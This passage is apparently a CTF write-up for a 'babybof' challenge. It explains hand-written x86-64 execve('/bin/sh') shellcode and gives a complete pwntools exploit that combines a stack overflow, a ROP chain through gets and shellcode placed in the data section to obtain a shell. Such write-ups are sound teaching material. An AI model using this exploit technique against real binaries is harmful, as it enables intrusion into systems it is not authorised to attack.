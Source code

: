 I just wanted to make one and not grab one from shell-storm for example. First, remember we are here trying to make a shellcode that will call `execve("/bin/sh", NULL, NULL)`.`rax` is the register holding the syscall number in 64-bit (it's eax in 32-bit) and we want to call to call `sys_execve`, it is the syscall number 59 so I placed 59 there. `mov` is the mnemonic in assembly to move data from register to register, memory to register, register to memory and I used it here to make `rax` hold the value 59. I suggest a good resource for getting the syscall number is w3challs syscall table, here is the link: https://syscalls.w3challs.com/. Next, as I explained above `rdi` is the first argument which should hold a pointer to the string "/bin/sh" in memory. I made a little format string here and said that the string "/bin/sh" will be in data+22 so in the address `0x0000000000601058 + 22 = 0x000000000060106e` and I said +22 because our shellcode length is 22 bytes and I will place the string "/bin/sh" just after it. Don't forgot to add a nullbyte at the end of the "/bin/sh" so it will stop reading it there. `rsi` is the second argument and it would be null so I used the mnemonic xor to clear it (basically set it to 0) I could also just do `mov rsi, 0`. same thing with the third argument. And finally, the `syscall` which will interrupt with the kernel to get the sys_execve system call. So let's place that in our exploit and place the "/bin/sh" followed by a null byte. And that's our final exploit.

```python
#!/usr/bin/python2

from pwn import *

context.update(arch="amd64", os="linux", bits=64)
r = process("./babybof")
#r = remote("chals20.cybercastors.com", 14425)
#print(r.recvuntil("name: "))
pop_rdi = 0x00000000004007f3
gets_plt = 0x4005d0
data = 0x0000000000601058
shellcode = asm("""
    mov rax, 59
    mov rdi, {0}
    xor rsi, rsi
    xor rdx, rdx
    syscall
""".format(data+22))
payload = ""
payload += "A"*264
payload += p64(pop_rdi)
payload += p64(data)
payload += p64(gets_plt)
payload += p64(data)
r.sendline(payload)
payload = ""
payload += shellcode
payload += "/bin/sh\x00"
r.sendline(payload)
r.interactive()
r.close()
```

Let's walkthrough the exploit one more time. So first we place 264 'A' so we reach the return instruction pointer, we overwrite the return instruction pointer with the address pointing to the instruction `pop rdi; ret`, we place the address of data in the rdi register because it's the register to hold the first argument to call the function (in this case calling the function gets with it). then remember the `ret` that will do a `pop rip` we are placing into it the address of the data section again because we have our shellcode there and we want to start executing it. finally when it will run the gets will wait for our input so we enter our shellcode followed by the string "/bin/sh" followed by a null byte as I explained above. After testing the exploit locally, let's test that remotely and get the flag.

![will_call_cops](C:\Users\ADMIN\Desktop\WRITEUPs\will_call_cops.PNG)

And yeah that's all about it. If you have any questions don't be shy to ask.
